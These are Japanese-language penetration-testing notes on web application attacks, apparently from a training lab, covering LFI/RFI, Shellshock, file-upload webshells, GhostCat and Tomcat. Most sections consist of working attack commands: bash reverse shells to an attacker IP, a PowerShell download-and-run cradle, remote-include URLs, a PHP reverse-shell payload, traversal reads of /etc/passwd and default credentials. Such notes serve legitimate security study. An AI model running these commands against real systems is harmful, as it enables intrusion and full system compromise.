# WebApplication

## robots.txt / sitemap.xml

ウェブアプリケーションは、検索エンジンのボットがサイトをクロールしてインデックスを作成するのを助けるために、サイトマップファイルを含めることができる

これらのファイルには、どのURLをクロールしないかというディレクティブも含まれている

```bash
curl https://www.google.com/robots.txt

---
User-agent: *
Disallow: /search
Allow: /search/about
Allow: /search/static
Allow: /search/howsearchworks
Disallow: /sdch
Disallow: /groups
Disallow: /index.html?
Disallow: /?
Allow: /?hl=
Disallow: /?hl=*&
Allow: /?hl=*&gws_rd=ssl$
Disallow: /?hl=*&*&gws_rd=ssl
Allow: /?gws_rd=ssl$
Allow: /?pt1=true$
Disallow: /imgres
Disallow: /u/
```

#### ※robots.txtがクロールAPIではないと怒られる場合



* curlコマンドでユーザエージェントを指定してアクセスする

  ```bash
  curl -A "Googlebot" http://10.11.1.39/robots.txt
  ----
  User-agent: *
  Allow: /otrs/index.pl
  ```

  


## LFI(Local File Inclution)

シェルペイロードをローカルに書き込みそれをインクルードさせることでリバースシェルを取得する手法。主にPHPアプリが脆弱性の対象となる。


#### 例1) phpのパラメーターとして値を渡している場合



* 以下URLにアクセスするとkaliのhttp.serverにアクセスが来ることでLFIの脆弱性があることが確認可能

  ```
  python -m http.server 80
  ```

  ```
  http://10.11.1.35/section.php?page=http://192.168.119.167/php-reverse-shell.php
  ```

  


## RFI（Remote File Inclution）

RFIという脆弱性があることが怪しいと思ったら、以下流れで検証をするとよい

* kaliにhttp.serverを立てる(pythonの方がリクエスト結果が見やすい)
  ※80や443といったoutboundが開いていやすいportでサーバーを立てること
* exploitの説明を**よく読み**、どのようなリクエストURIであればhttp.serverに通信が来るのかを確認する
* exploitコードを用意（phpがほとんど）し、どのような拡張子であればコード実行されるのかを確認する
* リバースシェルで待ち受ける


## RFI(advanced_comment_system 1.0)

pythonのPoC

https://packetstormsecurity.com/files/165108/Advanced-Comment-System-1.0-Remote-Command-Execution.html

RFIの脆弱性コマンド

https://www.exploit-db.com/exploits/9623

```
http://10.11.1.8/internal/advanced_comment_system/index.php?ACS_path=http://192.168.119.124/reverse.php%00
```

※`/advanced_comment_system/`というパスが必須。それでURLアクセスできるかをまずは確認すること


## hosts

hostsを設定しないとアプリがうまく動かない場合も多いのでhosts設定できる場合する

```bash
 sudo vi /etc/hosts
 
 -------
 172.50.3.126    management_portal
```


## IIS + FTP

FTPのanonymousログインができる場合、IISのURIの中でディレクトリトラバーサルの脆弱性がある場合がある。IISの場合,asp(or aspx)ファイルだと動作することが多い

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.1.14 LPORT=443 -f exe > reverse.exe
```


## HttpFileServer

```
searchsploit HttpFileServer
```

```
python 49125.py 10.11.1.50 9505 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe iex (New-Object Net.WebClient).DownloadString('http://192.168.119.167/Invoke-PowerShellTcp.ps1')"
```

※powershellはフルパスで指定しないとうまく動作しない
※画面上に出力結果が出るわけではないのでhttp.serverを立ててリクエストがきていることを確認すること


## ShellShock

https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29

* webサーバーがCGIを利用する際にリクエストからの特定の情報を環境変数リストにコピーしリクエストをハンドラプログラムに以上する。ハンドラがBashスクリプトである場合環境変数の文字列が実行されてしまう。
* OpenSSHのforcecommand機能。ユーザがログインした際に環境変数に記載されたbashコマンドを実行するという機能を悪用される

##### 脆弱性調査

```
searchsploit -t php 5.x | grep -v '/dos/'
```

これでshellshockが出てくる。apacheでも同じようにshellshockの脆弱性が表示される

##### 脆弱性チェック

* nmap

```bash
 ls -lah /usr/share/nmap/scripts/*shellshock*
```

```bash
nmap 10.11.1.71 -p 80 \
  --script=http-shellshock \
  --script-args uri=/cgi-bin/test.cgi --script-args uri=/cgi-bin/admin.cgi
  
----
PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://seclists.org/oss-sec/2014/q3/685
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
```

* nikto

  ```
  nikto -host http://10.11.1.71
  ```

  時間がかかるから早めにやるリストに入れたい

* Exploit

  https://www.exploit-db.com/exploits/34766

  ```bash
  curl -H 'User-Agent: () { :; }; /bin/bash -c "whoami"' http://10.11.1.71/cgi-bin/admin.cgi
  ```

  ```bash
  curl -H 'User-Agent: () { :; }; /bin/bash -c "bash -i >& /dev/tcp/192.168.119.167/4444 0>&1"' http://10.11.1.71/cgi-bin/admin.cgi
  ```

  ```
  nc -lvnp 4444
  ```

  

### cuppaCMS+phpLiteAdmin

どちらも認証を先に行う必要がある。10.11.1.116ではadminでログインができた。

http://10.11.1.116/db/phpliteadmin.php



http://10.11.1.116/administrator/



CuppaCMSにLFIの脆弱性がある

```
http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

phpLiteAdmin v1.9.3には任意のphpをDBとしてアップロードし、テーブルのレコードにphpテキストを書き込むことができる脆弱性がある。



新たにDBを作成する



1カラムでtableを追加する



insertモードでレコードを追加する



```php
<?php
shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.197/4444 0>&1'");
?>
```

cuppaCMSの脆弱性を使いコード実行する

```
http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../usr/local/databases/hack.php
```

https://sevenlayers.com/index.php/99-vulnhub-zico2-1-walkthrough


### 開発者モードのInspectを起点にjavascriptを活用してディレクトリサーチする

* 画面は真っ白だがInspectorでコメント欄に別のURLが見つかる

  

* さらにリンクをたどっていく

  

* ソースコードが見つかる

  

* vscodeで編集してみるとjavascriptであることがわかる

  自分で整形したけれどもプラグインとかを使えるといい。

  

* javascriptをwebブラウザのコンソールに入力して実行する

  

  新たなディレクトリが見つかる

* javascriptに記載があるがjavascriptで実行されないファイルも確認してみる。

  http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/offsecphun5.bmp

  新たなディレクトリが見つかる

  http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/1.jpeg

* 再度該当のディレクトリにgobusterする

* 以下ソフトウェアのライセンスファイルが見つかる

  

* 以下 Simple Text-File Login Scriptの脆弱性あり
  https://www.exploit-db.com/exploits/7444

* 後はexploitに従ってRFIの脆弱性を利用するのみ。


### Jquery-file-upload




```
searchsploit -m 45584.txt
```

```
curl -F "files=@shell.php" https://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php
```

```
curl -k -F "files=@shell.php" https://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php                     
{"files":[{"name":"shell.php","size":41,"type":"application\/octet-stream","url":"https:\/\/10.11.1.123\/books\/apps\/jquery-file-upload\/server\/php\/files\/shell.php","deleteUrl":"https:\/\/10.11.1.123\/books\/apps\/jquery-file-upload\/server\/php\/index.php?file=shell.php","deleteType":"DELETE"}]}
```

https://10.11.1.123/books/apps/jquery-file-upload/server/php/files/shell.php?cmd=whoami



webshell実行できてしかも`nt authority/system`

次はphpリバースシェルをアップロードする

```bash
curl -k -F "files=@php_reverse_shell.php" https://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php         
{"files":[{"name":"php_reverse_shell.php","size":9317,"type":"application\/octet-stream","url":"https:\/\/10.11.1.123\/books\/apps\/jquery-file-upload\/server\/php\/files\/php_reverse_shell.php","deleteUrl":"https:\/\/10.11.1.123\/books\/apps\/jquery-file-upload\/server\/php\/index.php?file=php_reverse_shell.php","deleteType":"DELETE"}]}
```

https://10.11.1.123/books/apps/jquery-file-upload/server/php/files/php_reverse_shell.php

リバースシェルが取得できる。


### 8009 GhostCat

tomcatのコンテンツを読み取り/実行できる脆弱性
※ファイルアップロードの脆弱性と組み合わせが必要

https://github.com/00theway/Ghostcat-CNVD-2020-10487

```bash
git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487.git
```



脆弱性確認用

```bash
python ajpShooter.py http://10.11.1.209/ 8009 /WEB-INF/web.xml read
```


### Tomcat 8080port

basic認証のデフォルト設定

```
tomcat
s3cret
```


### ApPHP MicroBlog

バージョンが異なるがRCEのPoCが刺さる。バージョンが近い場合は厳密に違う（上位バージョン）場合でも、PoCを試してみるべきという観点は必要

```
ApPHP MicroBlog Basic v.1.0.2
```



```bash
seachsploit -m 33070
```

```bash
python 33070.py http://10.11.1.223/index.php    
```

